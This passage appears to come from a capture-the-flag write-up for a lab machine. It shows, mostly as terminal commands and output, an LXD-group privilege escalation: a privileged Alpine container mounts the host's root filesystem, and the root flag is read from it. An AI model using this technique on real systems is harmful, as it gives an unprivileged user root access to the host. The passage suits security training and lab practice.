 ```shell

mike@included:~$ 
```

The next step is to import the image using LXC command-line tool:
```shell
mike@included:~$ lxc image import lxd.tar.xz rootfs.squashfs --alias alpine
lxc image import lxd.tar.xz rootfs.squashfs --alias alpine
mike@included:~$ lxc image list
lxc image list
+--------+--------------+--------+----------------------------------------+--------+--------+-----------------------------+
| ALIAS  | FINGERPRINT  | PUBLIC |              DESCRIPTION               |  ARCH  |  SIZE  |         UPLOAD DATE         |
+--------+--------------+--------+----------------------------------------+--------+--------+-----------------------------+
| alpine | 437f36c6eedc | no     | Alpinelinux 3.8 x86_64 (20220903_2027) | x86_64 | 1.96MB | Sep 3, 2022 at 8:40pm (UTC) |
+--------+--------------+--------+----------------------------------------+--------+--------+-----------------------------+
mike@included:~$ 
```

Set security.privileged flat to true and mount root file system on /mnt folder:

```shell
mike@included:~$ lxc init alpine privsec -c security.privileged=true
lxc init alpine privsec -c security.privileged=true
Creating privsec
mike@included:~$ lxc config device add privsec host-root disk source=/ path=/mnt/root recursive=true
<st-root disk source=/ path=/mnt/root recursive=true
Device host-root added to privsec
mike@included:~$ 

```
Finally we can start the container and start a root shell inside it.
```shell
mike@included:~$ lxc init alpine privsec -c security.privileged=true
lxc init alpine privsec -c security.privileged=true
Creating privsec
mike@included:~$ lxc config device add privsec host-root disk source=/ path=/mnt/root recursive=true
<st-root disk source=/ path=/mnt/root recursive=true
Device host-root added to privsec
mike@included:~$ lxc start privesc
lxc start privesc
Error: not found
mike@included:~$ lxc start privesc
lxc start privesc
Error: not found
mike@included:~$ lxc start privsec
lxc start privsec
mike@included:~$ lxc exec privsec /bin/sh
lxc exec privsec /bin/sh

~ # ^[[41;5Rid
id
uid=0(root) gid=0(root)
~ # ^[[41;5R
cd /mnt/root/root
/mnt/root/root # ^[[41;18Rcat root.txt
cat root.txt
c693d9c7499d9f572ee375d4c14c7bcf
/mnt/root/root # ^[[41;18R
```